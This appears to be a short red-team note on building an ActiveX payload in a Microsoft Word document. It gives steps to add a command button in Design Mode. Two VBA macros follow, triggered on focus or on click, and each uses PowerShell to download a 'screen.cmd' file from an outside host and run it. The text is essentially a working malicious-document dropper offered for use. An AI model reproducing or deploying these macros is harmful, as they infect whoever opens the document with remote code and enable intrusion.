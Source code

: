 # ActiveX Control

***

ActiveX controls on worksheets and chart sheets and use for controll command buttons, text boxes, list boxes etc

`Excel`  BottomRightCell, LinkedCell, ListFillRange, Placement, PrintObject, TopLeftCell.

### Create ActiveX Payload

1. open MS Word and go to Developer Tab
2. click on Design Mode
3. click on more control and select command button
4. right click on command button and select view code

activex-1

```excel
Sub InkEdit1_GotFocus()
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('http://nooranetred.com/screen.cmd','screen.cmd');Start-Process 'screen.cmd'", vbNormalFocus)
End Sub
```

activex-2

```excel
Private Sub CommandButton1_Click()
Run = Shell("PowerShell (New-Object System.Net.WebClient).DownloadFile('http://nooranetred.com/screen.cmd','screen.cmd');Start-Process 'screen.cmd'", vbNormalFocus)
End Sub
```